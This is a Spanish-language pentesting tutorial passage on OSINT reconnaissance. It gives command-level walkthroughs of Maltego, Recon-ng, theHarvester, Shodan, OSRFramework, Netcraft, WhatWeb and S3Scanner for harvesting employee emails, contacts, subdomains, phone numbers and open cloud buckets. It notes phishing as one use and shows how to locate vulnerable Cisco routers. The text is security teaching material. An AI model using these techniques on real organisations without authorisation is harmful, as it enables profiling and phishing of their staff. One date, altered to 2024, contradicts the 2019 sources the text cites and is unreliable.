- Recopilación de información de red (nombres de dominio, esquemas de direcciones IP y protocolos de red)
- Recopilación de información del sistema (nombres de usuarios y grupos, tablas de enrutamiento, nombres y tipos de sistemas)
- Recopilación de información de la organización (detalles de los empleados, directorio de la empresa y detalles de la ubicación)

Para obtener con éxito información sobre un objetivo, recomiendo utilizar la siguiente metodología de seguimiento:

- Comprobación de motores de búsqueda como Yahoo, Bing y Google
- Realizar técnicas de hacking de Google (búsquedas avanzadas en Google)
- Recopilación de información a través de plataformas de redes sociales como Facebook, LinkedIn, Instagram y Twitter
- Huella del sitio web de la empresa
- Realización de técnicas de seguimiento de correo electrónico
- Usando el comando whois
- Realizar huellas de DNS
- Técnicas de huella de red
- Ingeniería social

Ahora puedes diferenciar entre reconocimiento y toma de huellas. Tanto el reconocimiento como la toma de huellas son necesarios durante las pruebas de penetración, ya que cada uno proporciona información vital sobre el objetivo. En la siguiente sección, analizaremos en profundidad la recopilación de información pasiva.


## Comprender la recopilación pasiva de información

La recopilación pasiva de información es cuando se utiliza un enfoque indirecto para obtener información sobre el objetivo. Este método obtiene información que está disponible públicamente de muchas fuentes, eliminando así el contacto directo con el objetivo potencial. La recopilación pasiva de información suele ser fructífera y muchas organizaciones suelen publicar información y detalles sobre sus organizaciones como estrategia de marketing para sus clientes existentes y potenciales. A veces, cuando las organizaciones anuncian una vacante en un sitio web de contratación de personal, el reclutador publica los requisitos técnicos para el candidato potencial. Desde el punto de vista de un evaluador de penetración, los detalles técnicos pueden indicar los tipos de plataformas y aplicaciones que se ejecutan dentro de la infraestructura de red de la organización.

Hemos cubierto los conceptos de recopilación pasiva de información. Ahora, profundicemos en el aprendizaje sobre OSINT en la siguiente sección.


## Entendiendo OSINT

Como se mencionó anteriormente, la primera etapa de una prueba de penetración es recopilar la mayor cantidad de información posible sobre un objetivo u organización determinados. Recopilar información antes de explotar y obtener acceso a una red o sistema ayudará al evaluador de penetración a limitar el alcance del ataque y diseñar tipos específicos de ataques y cargas útiles que sean adecuados para la superficie de ataque del objetivo. Comenzaremos nuestra fase de recopilación de información utilizando la red informática más grande que existe: Internet.


El siguiente diagrama proporciona una breve descripción general de las diferentes áreas donde se puede encontrar [OSINT](https://www.incibe.es/incibe-cert/blog/osint-la-informacion-es-poder) en un objetivo :



Internet cuenta con muchas plataformas, desde foros y paneles de mensajes hasta plataformas de redes sociales. Muchas empresas crean una presencia en línea para ayudar a comercializar sus productos y servicios a clientes potenciales. Para ello, la creación de un sitio web, Facebook, Instagram, Twitter, LinkedIn, etc. de una empresa garantiza que sus clientes potenciales sepan quiénes son y qué servicios y productos ofrecen. El departamento de marketing suele ser responsable de garantizar que la presencia en línea de una organización se note y que su cartera digital esté siempre actualizada y sea atractiva.

Las organizaciones suelen publicar información sobre sí mismas en diversas plataformas de Internet, como blogs y sitios web de contratación. Como Internet es tan accesible y está disponible, es bastante fácil para alguien recopilar información sobre una organización objetivo simplemente utilizando motores de búsqueda y determinando su infraestructura subyacente. Esta técnica se conoce como **OSINT.**

En este caso, un evaluador de penetración o un hacker ético utiliza diversas herramientas y técnicas que aprovechan la información que está disponible públicamente en Internet para crear una cartera del objetivo. OSINT es un tipo de recopilación de información pasiva en la que el evaluador de penetración no establece contacto directo ni una conexión con el objetivo real, sino que pregunta a fuentes legítimas y confiables sobre el objetivo.

A lo largo de los años, he visto muchos sitios web de búsqueda de empleo en los que los reclutadores publican vacantes para puestos de TI dentro de una empresa, pero el reclutador especifica que el candidato ideal debe tener experiencia con tecnologías específicas. Esto puede ser algo bueno para la empresa y el solicitante, pero también puede ser malo. A continuación, se enumeran los pros y los contras de que las empresas publiquen sus tecnologías en sitios web de contratación:

Estas son las ventajas:

- El candidato potencial sabrá qué tipo de entorno esperar si es contratado.
- El candidato potencial puede determinar de antemano si tiene las habilidades requeridas para el puesto.

Estas son las desventajas:

- La empresa está exponiendo parcialmente sus tecnologías al público general.
- Un hacker puede determinar la infraestructura y seleccionar mejor los exploits y herramientas para realizar un ciberataque.

Echemos un vistazo a la siguiente captura de pantalla de un sitio de trabajo. Si observamos con atención, observamos que el anunciante del puesto de trabajo ha especificado que utiliza tecnologías de red de Cisco y HP, que la empresa utiliza un sistema PBX de AVAYA como sistema de **Voz sobre Protocolo de Internet** (**VoIP**) y que utiliza Windows Server 2008 o 2012 en su red:



Como evaluadores de penetración, podemos ver que la empresa utiliza tipos específicos de tecnologías dentro de su infraestructura de TI. Desde el punto de vista de un evaluador de penetración, si esta organización fuera nuestro objetivo para una prueba de penetración, ahora podríamos limitar nuestro alcance de ataques a estas tecnologías específicas.

Ahora que hemos completado esta sección sobre cómo comprender mejor OSINT, profundicemos en la práctica del uso de las herramientas OSINT .


## Utilizando las mejores herramientas OSINT

En esta sección, veremos algunas de las herramientas OSINT más populares que están disponibles para Kali Linux. Cada herramienta nos ayudará a crear un perfil sobre un objetivo utilizando varias fuentes de información que se pueden encontrar en Internet.

En las próximas subsecciones, cubriremos las siguientes herramientas OSINT:

- Maltego
- Recon-ng
- theHarvester
- Shodan
- OSRF Framework

Ahora, profundicemos en cada una de estas increíbles herramientas.

### Maltego

[Maltego](https://docs.maltego.com/support/solutions/articles/15000008704-installing-maltego) es una poderosa aplicación gráfica interactiva de minería de datos con la capacidad de consultar y recopilar información de varias fuentes en Internet y presentar datos en gráficos fáciles de leer. Los gráficos demuestran la relación entre cada entidad y el objetivo.

Para comenzar, necesitas una cuenta de usuario para acceder a las funciones y características de Maltego:

1. Ve a https://www.maltego.com y haz clic en **PLANS**. Se mostrará un menú desplegable donde puedes seleccionar **MALTEGO COMMUNITY**. Haz clic en **[REGISTISTER FOR FREE](https://www.maltego.com/ce-registration/)** para crear una cuenta de usuario:


2. Después de crear la cuenta de usuario, asegúrate de verificar tu dirección de correo electrónico antes de iniciar sesión. Una vez completado este paso, regresa a tu escritorio Kali Linux. Abre la herramienta **Maltego** haciendo clic en Aplicaciones | 01 - Information Gathering | maltego, o búscalo en el propio menú. 

3. Una vez que se abra la aplicación, haz clic en Maltego CE (Gratis) para configurar y ejecutar la edición comunitaria de Maltego:



4. A continuación, debería aparecer el asistente de configuración de Maltego. Asegúrate de iniciar sesión con la misma cuenta de usuario que creaste anteriormente en el sitio web y haz clic en Siguiente. Lee y sigue las instrucciones que aparecen en los siguientes pasos del asistente de configuración. Puedes dejar todo en el estado predeterminado y hacer clic en Siguiente hasta que finalice el proceso:



5. Una vez que se cierra la ventana de configuración, se muestra la interfaz general de Maltego, como se muestra en la siguiente captura de pantalla. En la página de inicio, hay muchos conjuntos de transformaciones que se pueden agregar a Maltego. Una **transformación** es un recurso de código abierto al que Maltego puede consultar para obtener información. Agregar transformaciones es opcional:



6. Para comenzar a recopilar información sobre una organización objetivo, primero debemos abrir un nuevo gráfico. Para ello, haz clic en el icono de Maltego en la esquina superior izquierda y, a continuación, haz clic en **Nuevo** . Una vez que se haya creado un nuevo gráfico, verá varios tipos de información (entidades) a la izquierda, mientras que, en el lado derecho, verá Vista general, Vista detallada y Vista de propiedades .

7. Para agregar un dominio de una empresa, haz clic y arrastra la entidad de dominio al centro del gráfico. De manera predeterminada, aparecerá *paterva.com* como el dominio de destino. Cambiemos el valor del dominio por otro. En el lado izquierdo de la interfaz, haz clic en **Vista de propiedades**. Podrás editar el valor en el campo **Nombre de dominio**, como se muestra en la siguiente captura de pantalla:



8. Una vez que el nombre de dominio haya cambiado, podemos proceder y resolver la URL del sitio web para el dominio. Haz clic derecho en la entidad del dominio, haz clic en Todas las transformaciones y selecciona **To Website [Quick lookup]**. Esta transformación simplemente descubrirá la dirección del sitio web (consulta la captura de pantalla de la izquierda) y mostrará la relación (consulta la captura de pantalla de la derecha):



9. A continuación, podemos intentar obtener la dirección IP de la dirección del sitio web. Haz clic con el botón derecho en la dirección del sitio web ( www.google.com ) | Todas las transformaciones | **To IP address (DNS)**. La siguiente captura de pantalla a la derecha muestra la dirección IP que se resolvió para www.google.com. Tenga en cuenta que esta es una de las muchas direcciones IP que se utilizan para la URL www.google.com:




10. Podemos llevar esta fase aún más lejos. ¿Qué tal descubrir los **dominios de nivel superior** (**TLD**) que forman parte del dominio google.com? Para completar esta tarea, comenzamos haciendo clic derecho en la entidad de dominio (google.com) y seleccionando **To Domain [Find other TLDs]**, como se muestra en la siguiente captura de pantalla a la izquierda. Una vez que se haya completado la transformación, Maltego presentará la información en una estructura similar a un árbol en el plano del gráfico, como se muestra en la siguiente captura de pantalla a la derecha:



11. Ahora, ¿qué tal si reunimos las direcciones de correo electrónico de los contactos que están registrados en un dominio? Podemos hacer clic derecho en la entidad Dirección IP | Todas las transformaciones | **To Email address [From whois info]**. Si hay alguna dirección de correo electrónico, se mostrará, como se muestra en la captura de pantalla de la derecha:



12. Además, podemos intentar obtener los **servidores de nombres** (**NSes**) para el dominio. Haz clic derecho en la entidad de dominio (google.com) | Todas las transformaciones | **To DNS Name – NS (name server)**. Se mostrarán todos los NSes para el dominio, como se muestra en la captura de pantalla de la derecha:.



Ahora tienes una mejor idea de las funciones de Maltego y de cómo navegar por las distintas transformaciones. Una característica interesante de Maltego es el **mapeo de relaciones** en el gráfico para ayudarte a analizar información y entidades.

Una vez que hayas completado esta sección, ya estarás familiarizado con el uso de Maltego para recopilar información. En la siguiente sección, utilizaremos una herramienta basada en Python para ayudarnos en la recopilación pasiva de información.

### Recon-ng

**Recon-ng** es un marco de reconocimiento OSINT escrito en Python. La herramienta en sí está completa con sus propios módulos, base de datos, ayuda interactiva y sistema de menú, similar a Metasploit. Recon-ng puedes realizar técnicas de recopilación de información basadas en la web utilizando varias plataformas de código abierto.

Recon-ng ya forma parte del arsenal de herramientas de Kali Linux. Para acceder a la interfaz de Recon-ng, simplemente haz clic en **Aplicaciones** en la esquina superior izquierda para expandir el menú de aplicaciones y luego seleccione **01 – Recopilación de información** . Debería ver **recon-ng** . Haz clic en él para abrir el marco:




Además, Puedes abrir la ventana del Terminal de Linux y escribir recon-ng para ejecutar el marco.

Para descargar y configurar la última versión de Recon-ng, utiliza las siguientes instrucciones:

1. Ejecuta las siguientes configuraciones en tu Terminal para descargar la última versión de Recon-ng e instalarla:

```markup
git clone https://github.com/lanmaster53/recon-ng.git
cd recon-ng
pip install -r REQUIREMENTS
./recon-ng
```

[6](notas.md)

Una vez que hayas terminado, tu pantalla debería ser similar a la siguiente captura de pantalla:



1. Si no hay módulos instalados o habilitados, usa el siguiente comando para instalar todos los módulos en **Recon-ng**:

```sh
marketplace install all
```

[7](notas.md)

Opcionalmente, Puedes recargar todos los módulos utilizando el comando ``modules reload``.

Ahora que se ha abierto el marco Recon-ng, familiaricémonos con su interfaz utilizando las siguientes instrucciones:

1. Para visualizar todos los módulos de **recon-ng v5**, debemos utilizar el comando ``modules search`` para visualizar una lista de todos los módulos disponibles. Todos los módulos se presentarán bajo sus categorías ( ``Discovery``, ``Exploitation``, ``Recon``, ``Reporting``, etc.), como se muestra en la siguiente captura de pantalla:



Como evaluador de penetración, puedes utilizar las mismas herramientas para varias organizaciones a lo largo de tu carrera. Podemos crear espacios de trabajo dentro de recon-ng para ayudar a aislar nuestros proyectos/datos de manera más eficiente. Si observas detenidamente la interfaz de la línea de comandos, verás la palabra ``default`` entre corchetes. Esto implica que actualmente estamos dentro del espacio de trabajo predeterminado de Recon-ng.

2. Para crear un espacio de trabajo, podemos utilizar el comando ``workspaces create <worksplace-name>``. 

   Vamos a crear un nuevo espacio de trabajo llamado *pentest*. Utiliza el comando ``workspaces create pentest`` dentro de la interfaz Recon-ng.

3. Para ver todos los espacios de trabajo existentes y verificar la creación de nuestro nuevo espacio de trabajo, podemos usar el comando ``workspaces list``:



4. Para utilizar el espacio de trabajo *pentest*, utiliza el comando ``workspaces select pentest``. El espacio de trabajo debería cambiar en la interfaz de línea de comandos.
5. Ahora que hemos añadido una empresa y su dominio a nuestra base de datos, busquemos un módulo para realizar una  búsqueda whois. Podemos utilizar el comando ``modules search whois``, donde ``whois`` es la palabra clave o criterio de búsqueda:



6. Vamos a utilizar el módulo **de puntos de contacto** (**POCS**) para obtener más detalles de las personas relacionadas con el dominio. Para ello, ejecuta el comando ``modules load recon/domains-contacts/whois_pocs``. Al utilizar el comando ``info``, obtendrás una descripción del módulo y si se requieren parámetros adicionales:



El valor ``default`` lo establece el desarrollador del módulo; configura tu propia fuente para cada módulo dentro de recon-ng. Además, puedes usar el comando ``info`` para ver detalles sobre un módulo. El comando ``input`` enumerará los valores de entrada para el componente SOURCE de un módulo. El comando ``input`` es útil para verificar cuáles son los valores SOURCE para un módulo específico.

7. Establezcamos el valor SOURCE en microsoft.com; esto se puede hacer usando el comando ``options set SOURCE microsoft.com``, como se muestra en la siguiente captura de pantalla:



8. Una vez que todo esté configurado correctamente, usa el comando ``run`` para ejecutar el módulo contra el dominio. Una vez que el módulo haya completado su análisis, podemos usar el comando ``show contacts`` para ver la lista de información, como el nombre y apellido de una persona, las direcciones de correo electrónico, la región y el país.

Como puedes ver, recon-ng es una herramienta muy potente y puede gestionar bastante bien los datos. Las organizaciones suelen crear subdominios para muchos propósitos; algunos se pueden utilizar como portal de inicio de sesión o simplemente como otro directorio en un sitio web.

Para obtener una lista de subdominios de un objetivo, sigue los siguientes pasos:

1. Comencemos por buscar un módulo adecuado mediante el comando ``modules search site``. Recon-ng devolverá algunos de los módulos que contienen ``site`` como parte de sus nombres.
2. Vamos a utilizar el módulo ``google_site_web``. Simplemente ejecuta el comando ``modules load recon/domains-hosts/google_site_web``:   ``google_site_web`` &rarr; CAPTCHA bypass problem



3. A continuación, cambiemos el valor SOURCE de este módulo mediante el comando ``options set SOURCE microsoft.com``, como se muestra en la siguiente captura de pantalla:



4. Utiliza el comando ``run`` para ejecutar este módulo.

5. Una vez que el módulo haya finalizado su consulta, utiliza el comando ``show hosts`` para ver la lista de subdominios que se encontraron para el dominio microsoft.com:



6. Ahora, hagamos que esto sea un poco más interesante. ¿Qué tal si obtenemos las direcciones IP de los subdominios? Para ello, ejecutaremos el comando ``module load recon/domains-hosts/brute_hosts`` y estableceremos el valor SOURCE en microsoft.com:



7. Una vez que el módulo haya terminado de ejecutarse, utiliza el comando ``show host`` una vez más. Deberías ver las direcciones IP correspondientes a un subdominio:



Como evaluador de penetración, escribir informes puede resultar abrumador, ya que un informe es un resumen de las acciones realizadas y los resultados obtenidos mientras se realizan varias tareas y se utilizan diferentes herramientas. recon-ng tiene algunos módulos de informes que pueden generar informes en varios formatos. El comando ``dashboard`` proporcionará un resumen de las tareas realizadas con recon-ng, como se muestra aquí:



Para generar un informe, puedes utilizar el comando ` modules search report` . Esto te permitirá ver una lista de módulos de informes dentro de la interfaz de recon-ng. Vamos a crear un informe en formato HTML. Para crear el informe, realiza los siguientes pasos:

1. Ejecutar el comando ``modules load reporting/html``.
2. Utiliza el comando ``options set CREATOR`` para establecer el creador del informe.
3. Utiliza el comando ``options set CUSTOMER`` para configurar el cliente.
4. Utiliza el comando ``options set FILENAME`` para establecer la ubicación de salida con el nombre de archivo del informe.
5. Por último, utiliza el comando ``run`` para ejecutar el módulo y generar el informe.

La siguiente captura de pantalla tiene etiquetas que corresponden a los pasos antes mencionados para generar y exportar un archivo de informe usando el módulo ``reporting/html``:



Por último, dirígete a la ubicación de salida en tu máquina Kali Linux y abre el archivo HTML. La vista debería ser similar a la siguiente:



Ahora, la información está bien categorizada y resumida para su visualización.

En la siguiente sección, veremos cómo usar **theHarvester** para recopilar las direcciones de correo electrónico de las personas asociadas a una organización.

### theHarvester

theHarvester está diseñado para recopilar direcciones de correo electrónico, dominios y detalles de los empleados de una empresa determinada. theHarvester utiliza múltiples fuentes abiertas en Internet, como motores de búsqueda, para reunir detalles en un formato legible.

se pueden encontrar más detalles sobre theHarvester en su página de GitHub:

https://github.com/laramies/theHarvester

Para comenzar a utilizar theHarvester, ejecuta los siguientes pasos:

1. Abre una ventana de terminal y ejecuta ``theHarvester``. La descripción y el uso de la herramienta se presentarán en la terminal, como se muestra en la siguiente captura de pantalla:



2. theHarvester tiene una sintaxis de comandos bastante básica y no es muy complicado usarla. 

   `theHarvester -d [domain] -l [number_of_results] -b [source_of_search_query]`

   `theHarvester -d loquesea.com -l 500 -b google`

3. Intentemos recopilar las direcciones de correo electrónico de los empleados de una empresa cuyas direcciones de correo electrónico se publican de forma pública, como en foros, sitios web, blogs y plataformas de redes sociales. Para ello podemos utilizar el comando ``theHarvester –d <domain> –b <data source>``. En nuestro ejemplo, buscaremos direcciones de correo electrónico del dominio *checkpoint.com* utilizando Google como fuente de datos:



Los resultados nos han proporcionado algunas cuentas de correo electrónico corporativas de algunos de los empleados de la empresa y las direcciones IP de algunos subdominios. Recomendaría utilizar varias fuentes de datos para recopilar la mayor cantidad de información posible. Uno de los propósitos de recopilar las direcciones de correo electrónico de una empresa puede ser realizar ataques de phishing.

A continuación, utilizaremos el motor de búsqueda Shodan, que indexa **Internet de las cosas** (**IoT**) y otros dispositivos en línea para recuperar información sobre un objetivo potencial.

### Shodan

Shodan (www.shodan.io) es un motor de búsqueda que indexa varios dispositivos que están conectados a Internet. ¿Qué significa esto? Para explicarlo mejor, tomemos un ejemplo real de descubrimiento de dispositivos con un cierto nivel de vulnerabilidad. En enero de~~2019~~ 2024, Hacker News (https://thehackernews.com) publicó un artículo que indicaba que más de 9000 enrutadores Cisco SMB RV320 y RV325 se vieron afectados en todo el mundo por un nuevo exploit. Los exploits fueron CVE-2019-1652 y CVE-2019-1653, y permiten que una persona malintencionada obtenga archivos de configuración y obtenga el control de los dispositivos.

Este artículo se puede encontrar en la siguiente URL:

https://thehackernews.com/2019/01/hacking-cisco-routers.html

Imagina que estás interesado en descubrir todos los dispositivos de esta naturaleza que hay en Internet. Si utilizamos Shodan como motor de búsqueda habitual, podemos descubrir rápidamente varios dispositivos que se ajusten a nuestros criterios de búsqueda de cisco rv325, como se muestra en la siguiente captura de pantalla. Observa con atención: podemos ver una lista de routers Cisco RV325 en línea, sus direcciones IP, sus nombres de host y sus ubicaciones:



Los resultados proporcionan información de geolocalización de los dispositivos y direcciones IP, así como información de banners como versiones de firmware. A la izquierda, podemos ver un mapa global que indica la cantidad de dispositivos conectados a Internet por país y organización. Simplemente haciendo clic en un país, una organización o incluso una dirección IP, filtraremos esa información.

Al hacer clic en una dirección IP, se obtendrá mayor información sobre el dispositivo seleccionado, como el nombre de host, los puertos abiertos, los servicios en ejecución, la organización, los detalles **del proveedor de servicios de Internet** (**ISP**) y las vulnerabilidades a las que es susceptible el dispositivo, como se muestra en la siguiente captura de pantalla:



La información que se obtiene de Shodan puede ayudarte a crear un mejor perfil de la organización objetivo durante una prueba de penetración, ya que puede proporcionarte posibles versiones del sistema operativo y otros detalles técnicos que puedes utilizar para explotar con éxito tu objetivo. En pocas palabras, Shodan puede ayudarte a identificar las tecnologías y los sistemas de control de tu organización objetivo y su infraestructura de TI.

En la siguiente sección, aprenderemos sobre **OSR Framework** .

### OSR Framework

Otra herramienta OSINT increíble es OSR Framework. Este conjunto de herramientas realiza búsquedas mediante nombres de usuario, registros DNS, búsquedas en la web profunda y mucho más.

Para comenzar, podemos ejecutar el comando ``osrf`` en la Terminal para proporcionar una descripción del uso de la herramienta en sí. Imaginemos que necesitamos obtener una lista de direcciones de correo electrónico corporativas de nuestra empresa objetivo en una plataforma de redes sociales. Los siguientes son los componentes de OSR Framework que podemos utilizar para recopilar información de varias fuentes:

- domainfy: Comprueba si los nombres de dominio que utilizan palabras y apodos están disponibles
- entify: Extrae entidades utilizando expresiones regulares de las URI proporcionadas
- mailfy: Obtiene información sobre las cuentas de correo electrónico
- checkfy: Verifica si una dirección de correo electrónico determinada coincide con un patrón
- phonefy: Busca información vinculada a prácticas de spam por un número de teléfono
- searchfy: Realiza consultas en varias plataformas
- usufy: Busca cuentas registradas con apodos determinados

En nuestro primer ejemplo, podemos intentar obtener información sobre nuestro dominio de destino utilizando la base de datos whois. Mediante la sintaxis ``domainfy.py --whois –n <target>``, el marco comenzará a realizar consultas whois y proporcionará los resultados en formato de tabla después de unos minutos. En nuestro ejemplo, he utilizado el comando ``domainfy.py --whois –n checkpoint`` para recuperar específicamente información de cualquier dominio que contenga el nombre checkpoint.

Los resultados son los siguientes:



A continuación, podemos intentar obtener las direcciones de correo electrónico de una cadena de búsqueda determinada. En este segundo ejemplo, intentamos descubrir direcciones de correo electrónico que contengan la cadena ``checkpoint`` que se ha utilizado en varios sitios web de Internet. Podemos empezar utilizando el comando ``mailfy.py –n checkpoint``. Se nos presentará una tabla que muestra las direcciones de correo electrónico que se ajustan a nuestros criterios de búsqueda, dominio y ubicación de la plataforma, como se muestra en la siguiente captura de pantalla:



En nuestro tercer ejemplo, vamos a utilizar una cadena para buscar en todos los servicios de OSRFramework. Para lograr esta tarea, utilizamos el comando ``seachfy.py –q string`` en la terminal. Una vez completado, se muestran los resultados y te informan sobre la ubicación que se encontró, los alias y las URL, como se muestra en la siguiente captura de pantalla:



Además, comprobar si hay fugas de números de teléfono es sencillo con OSRFramework. Con el comando **``phonefy.py –n number``**, OSR Framework comenzará su búsqueda. La siguiente captura de pantalla muestra la ubicación de la URL y la plataforma de un número de teléfono determinado:




En nuestro último ejemplo, podemos buscar nombres de usuario. El uso del comando ``usufy.py –n string`` permitirá a OSR Framework buscar varios recursos en línea. En este ejemplo, he buscado `p@55w0rd1` como nombre de usuario y los resultados son los siguientes:



Como habrás podido comprobar, OSR Framework es otra herramienta muy potente dentro de la plataforma Kali Linux. El uso de una herramienta como esta puede ahorrarte mucho tiempo durante el proceso de recopilación de información.

Una vez que hayas completado esta sección, ya posees las habilidades necesarias para utilizar varias herramientas OSINT para recopilar información específica y detallada sobre una organización objetivo. En la siguiente sección, analizaremos el tema de las fugas de datos en los recursos de la nube.


## Identificación de la tecnología objetivo y los controles de seguridad

Como evaluador de penetración, es muy importante determinar las tecnologías utilizadas por una red u organización objetivo antes de realizar una prueba de penetración de red externa. Descubrir las tecnologías utilizadas por un objetivo suele resultar muy útil antes de cualquier tipo de ataque ofensivo contra la red u organización objetivo. Nos permite, como evaluadores de penetración, equiparnos mejor con las herramientas adecuadas para hacer el trabajo de manera eficiente y exitosa. Imagínate comenzar un nuevo trabajo como carpintero pero llegar el primer día sin ninguna herramienta: ¿cómo puedes esperar tener éxito?


Además, conocer de antemano las tecnologías y los controles de seguridad que se utilizan en la red de destino nos permitirá estar mejor preparados investigando y desarrollando exploits para aprovechar las debilidades de seguridad conocidas en el sistema y la red de destino. Analizaremos esta idea con más detalle en las siguientes secciones.

### Descubriendo tecnologías usando Shodan

Primero vamos a utilizar Shodan para ayudarnos a descubrir las tecnologías que se ejecutan en los servidores de destino. Recuerde que Shodan es un motor de búsqueda para dispositivos IoT que brinda información detallada sobre los dispositivos conectados a Internet.

Para comenzar, siga los siguientes pasos:

1. Usando su navegador web, vaya a https://www.shodan.io .
2. Es posible que sea necesario registrarse y crear una cuenta en Shodan para obtener mejores resultados.
3. En la barra de búsqueda, ingrese una organización para buscar un dispositivo. La siguiente captura de pantalla muestra la barra de búsqueda en Shodan:



1. Una vez completada la búsqueda, haz clic en un objetivo de los resultados de la búsqueda para acceder a la información encontrada con Shodan.

1. En la página de destino, se le presentará una lista de puertos de red abiertos, servicios en ejecución y sus versiones, así como también cualquier tecnología utilizada:



1. Desplazándose un poco hacia abajo, si se encuentran vulnerabilidades conocidas en el objetivo, Shodan proporcionará una lista con descripciones:



En la siguiente sección, veremos el uso de **Netcraft** para recopilar información más detallada sobre las tecnologías subyacentes de un servidor web de destino.


### El poder de Netcraft

Netcraft nos permite recopilar información sobre un dominio de destino, como información de bloqueo de red, información del registrador, contactos de correo electrónico, el sistema operativo del servidor de alojamiento y la plataforma web.

Para comenzar, utiliza las siguientes instrucciones:

1. Usando su navegador web, vaya a https://www.netcraft.com/ .
2. En la barra de búsqueda resaltada en la siguiente captura de pantalla, ingrese un dominio:


Si una búsqueda no arroja ningún resultado, inclúyalo wwwcomo parte de la dirección del sitio web.

1. Aparecerá la página de resultados, que proporciona información relacionada con la red del objetivo. Desplácese un poco hacia abajo hasta que vea **Historial de alojamiento** . Esta sección le proporciona el sistema operativo del servidor de alojamiento, la plataforma del servidor web y las versiones del servicio, como se muestra aquí:




1. Desplácese un poco más hacia abajo hasta que vea **Tecnología del sitio** . Esta sección le informa sobre las tecnologías que Netcraft pudo identificar en el servidor web de destino:



Como habrás podido comprobar, Netcraft nos puede proporcionar información muy útil. Ahora podemos aprovechar la información encontrada y realizar más investigaciones sobre las tecnologías para encontrar vulnerabilidades y exploits conocidos para comprometer el objetivo.

### Reconociendo tecnologías con WhatWeb

Por último, podemos echar un vistazo al uso de la herramienta **WhatWeb** en Kali Linux. WhatWeb es capaz de reconocer las tecnologías utilizadas para sitios web, direcciones de correo electrónico, marcos web y bases de datos.


Para comenzar a utilizar WhatWeb, siga los siguientes pasos:

1. Abra una nueva terminal e ingrese el comando ``whatsweb –h`` para obtener el menú de ayuda, mostrando la sintaxis.
2. Para ejecutar WhatWeb contra un objetivo como Metasploitable en nuestro laboratorio, use el comando ``whatweb <target>`` como se muestra aquí:



WhatWeb pudo proporcionarnos las tecnologías utilizadas en la plataforma del servidor web en nuestra máquina virtual Metasploitable.

1. A continuación, utilizando el comando`` whatweb –v <target>``, proporcione una salida detallada como se muestra aquí:



En la salida detallada que se muestra aquí, WhatWeb nos proporciona muchos más detalles sobre las descripciones de los complementos utilizados y sus resultados.

En esta sección, hemos completado varios ejercicios diseñados para ayudarnos a descubrir las tecnologías que se utilizan en una red o un sistema de destino. En la siguiente sección, profundizaremos en el aprendizaje sobre los recursos de la nube.


## Cómo encontrar fugas de datos en los recursos de la nube

En los últimos años, la computación en la nube se ha convertido en una de las tendencias de más rápido crecimiento en la industria de TI. La computación en la nube permite a las empresas migrar y utilizar recursos informáticos dentro del centro de datos de un proveedor de la nube. Los proveedores de computación en la nube tienen un modelo de pago por uso, lo que significa que solo paga por los recursos que utiliza. Algunos proveedores de la nube permiten esquemas de pago por minuto, mientras que otros utilizan una estructura de pago por hora.

Hay tres grandes proveedores de nube:

- **Amazon Web Services** (**AWS**): el servicio en la nube de Amazon
- **Microsoft Azure**: el servicio en la nube de Microsoft
- **Google Cloud Platform** (**GCP**): el servicio en la nube de Google

Un servicio que los proveedores de la nube suelen ofrecer a los clientes es una instalación de almacenamiento. La instalación de almacenamiento de AWS se conoce como **Simple Storage Service** (**S3**). Siempre que un cliente habilita el servicio S3, se crea un depósito. Un depósito es una unidad de almacenamiento dentro de la plataforma de AWS donde el cliente puede agregar o eliminar archivos. En Microsoft Azure, la instalación de almacenamiento de archivos se conoce como **Azure Files** . Además, en GCP, la instalación de almacenamiento se conoce como **Google Cloud Storage** .

En el campo de la seguridad de la información, debemos recordar que cuando una empresa utiliza una plataforma en la nube, los datos en la plataforma en la nube deben estar protegidos, tal como deberían estarlo cuando se almacenan en las instalaciones (es decir, cuando se almacenan localmente). A veces, los administradores se olvidan de habilitar las configuraciones de seguridad o carecen de conocimientos sobre la seguridad de una solución en la nube. Esto podría llevar, por ejemplo, a que un atacante descubra los buckets de AWS S3 de una organización objetivo. Veamos ahora un ejemplo sencillo de cómo hacerlo.

http://flaws.cloud/ es un sitio web que puedes utilizar para obtener información sobre las vulnerabilidades de seguridad en la nube.

En nuestro ejercicio, vamos a utilizar la herramienta S3Scanner. Siga estos pasos para comenzar:

1. Esta herramienta no está preinstalada en Kali Linux, por lo que necesitaremos crear un clon del repositorio de GitHub usando el siguiente comando:

```markup
git clone https://github.com/sa7mon/S3Scanner.git
```

1. A continuación, cambie los directorios a la S3Scannercarpeta usando el comando ``cd S3Scanner``.
2. Ahora, necesitarás instalar dependencias adicionales para esta herramienta. No te preocupes, los desarrolladores hicieron que este paso sea muy fácil para nosotros. Para completar este paso, usa el comando ``pip install -r requirements.txt``.
3. Una vez completado, podemos usar nuestra herramienta en el dominio de un destino. Mediante la sintaxis ``python ./s3scanner.py domain``, el escáner de herramientas creará un dominio para un depósito de AWS S3 y determinará si es accesible.
4. La siguiente captura de pantalla muestra el uso de S3Scanner para verificar si hay depósitos AWS S3 en el dominio flaws.cloud:



1. Se ha encontrado un depósito en el dominio. Además, puedes crear una lista de dominios en un archivo de texto y consultar todo el archivo a la vez. El siguiente es un ejemplo de consulta de varios dominios almacenados en el archivo `sites.txt`:



1. Además, podemos utilizar el comando `host` para resolver la dirección IP del dominio. Luego, utilizando la utilidad **nslookup** con el parámetro ``ptr``, se puede realizar una búsqueda inversa, lo que nos permitirá obtener el nombre real del depósito de AWS S3, como se muestra en la siguiente captura de pantalla:



Las fugas de datos pueden ocurrir en cualquier plataforma y en cualquier organización. Como futuro evaluador de penetración y profesional de la ciberseguridad, debe saber cómo encontrarlas antes de que un pirata informático real las explote. Las empresas pueden almacenar datos confidenciales en plataformas en la nube o incluso dejar otros datos completamente desprotegidos en la red de un proveedor de servicios en la nube. Esto puede conducir a la recuperación exitosa de datos y cuentas.


## Entendiendo el hackeo de Google y los operadores de búsqueda ([Google dorks](https://www.freecodecamp.org/news/google-dorking-for-pentesters-a-practical-tutorial/))

El concepto de hackeo de Google no consiste en hackear la infraestructura de red o los sistemas de Google, sino en utilizar parámetros de búsqueda avanzados dentro del motor de búsqueda de Google. Podemos utilizar Google para ayudarnos a encontrar sistemas vulnerables, información oculta y recursos en Internet simplemente insertando operadores de búsqueda especiales en la barra de búsqueda de Google.

Imaginemos que desea utilizar el motor de búsqueda de Google para buscar varios sitios web, pero no desea ver resultados que contengan determinadas palabras clave o frases. Para ello, podemos utilizar la sintaxis <string of text here> - <keyword>. La palabra clave es la frase o el texto que deseamos excluir.

Veamos el siguiente ejemplo:



